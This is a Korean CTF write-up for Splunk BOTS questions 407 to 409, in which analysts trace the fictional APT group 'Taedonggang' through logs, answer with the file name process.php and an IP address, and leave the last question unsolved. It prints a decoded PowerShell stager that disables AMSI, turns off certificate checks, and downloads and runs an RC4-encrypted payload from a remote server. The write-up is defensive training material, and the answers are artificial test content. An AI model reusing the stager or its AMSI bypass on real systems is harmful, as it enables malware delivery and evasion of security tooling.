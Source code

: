 ```
[REF].ASSeMBlY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeLD('amsiInitFailed','NonPublic,Static').SETVAlUe($nUll,$tRue)};[System.NET.SeRviCEPoIntMANAGEr]::EXPect100ConTiNue=0;$Wc=New-ObJECT SYSTeM.NET.WeBClIent;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};$Wc.HeADeRS.ADd('User-Agent',$u);$wc.PRoxY=[SYStem.NET.WEBRequESt]::DEFaUlTWeBPrOxY;$Wc.PrOXy.CRedEntialS = [SYsTEM.NET.CRedeNtiALCachE]::DeFAuLTNEtWorkCreDeNtials;$K=[SYsTem.TeXT.EncODIng]::ASCII.GETBytes('389288edd78e8ea2f54946d3209b16b8');$R={$D,$K=$ArGS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COunt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxOR$S[($S[$I]+$S[$H])%256]}};$wc.HeaDERs.AdD("Cookie","session=wInU2UbWvd/SdOjjVta0BHaZHjI=");$ser='https://45.77.65.211:443';$t='/login/process.php';$DaTA=$WC.DowNloAdDATA($sEr+$T);$iv=$DaTA[0..3];$dAta=$data[4..$datA.lenGTH];-jOiN[ChAr[]](& $R $dATA ($IV+$K))|IEX
```

이런식으로 나옵니다. 나머지 세개도 base64로 decode해보면

/news.php - 1개  
/admin/get.php - 1개  
/login/process.php - 2개  
가 나옵니다.

그러므로, process.php를 가장 자주 요청합니다.

답 : process.php

408 The APT group Taedonggang is always building more infrastructure to attack future victims. Provide the IPV4 IP address of a Taedonggang controlled server that has a completely different first octet to other Taedonggang controlled infrastructure. Answer guidance: 4.4.4.4 has a different first octet than 8.4.4.4  
APT 그룹 대동강은 미래의 희생자를 공격하기 위해 항상 더 많은 인프라를 구축하고 있습니다. 다른 대동강 제어 인프라와 완전히 다른 첫 번째 옥텟을 갖는 대동강 제어 서버의 IPV4 IP 주소를 제공하십시오. 답변 지침: 4.4.4.4는 8.4.4.4와 첫 번째 옥텟이 다릅니다.

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

<details><summary>hint#3</summary></details>

<details><summary>hint#4</summary></details>

407번 문제에서 45.77.65.211를 통신하는것을 발견했습니다.

IP관련 정보는 stream:tcp에서 찾아봅시다.

```
sourcetype=stream:tcp 45.77.65.211
```

ssl_cert_hash_256의 값을 찾을 수 있습니다.

**1ACB3A5AAA46FC13F788A448716F841168F82227**
해당 값을 [인증서 OSINT 사이트](https://search.censys.io/)에서 검색해봅시다.

현재는 crt hash값으로 관련된 사이트를 이용할 수 없습니다.

답 : 104.238.159.19

409 The Taedonggang group had several issues exfiltrating data. Determine how many bytes were successfully transferred in their final, mostly successful attempt to exfiltrate files via a method using TCP, using only the data available in Splunk logs. Use 1024 for byte conversion.  
대동강 그룹은 데이터를 빼내는 데 몇 가지 이슈가 있었습니다. Splunk 로그에서 사용할 수 있는 데이터만 사용하여 TCP를 사용하는 방법을 통해 파일을 추출하려는 대부분의 성공적인 최종 시도에서 성공적으로 전송된 바이트 수를 확인합니다. 바이트 변환에 1024를 사용합니다.

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

<details><summary>hint#3</summary></details>

<details><summary>hint#4</summary></details>

추후 풀이 예정
